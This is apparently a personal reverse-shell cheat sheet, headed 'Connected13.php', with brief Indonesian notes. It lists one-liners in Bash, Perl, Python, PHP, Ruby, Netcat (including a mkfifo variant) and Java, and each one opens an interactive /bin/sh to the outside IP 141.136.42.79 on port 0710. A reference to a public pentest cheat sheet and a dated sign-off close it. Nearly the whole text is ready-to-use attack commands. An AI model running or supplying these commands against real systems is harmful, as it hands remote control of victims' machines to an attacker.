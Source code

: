 # Connected13.php

#Bash
bash -i >& /dev/tcp/141.136.42.79/0710 0>&1

#Perl
perl -e 'use Socket;$i="141.136.42.79";$p=0710;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("141.136.42.79",0710));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#PHP
php -r '$sock=fsockopen("141.136.42.79",0710);exec("/bin/sh -i <&3 >&3 2>&3");'

#Ruby
ruby -rsocket -e'f=TCPSocket.open("141.136.42.79",0710).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

#Netcat
nc -e /bin/sh 141.136.42.79 0710

jika netcat yang terinstall itu versi yang berbeda maka bisa memakai ini untuk reverse shell

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 141.136.42.79 0710 >/tmp/f

#Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/141.136.42.79/0710;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

Referensi
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Thailand, 00:50 Senin 20 Januari 2023 di kursi yang nyaman dan di depan komputer kesayangan

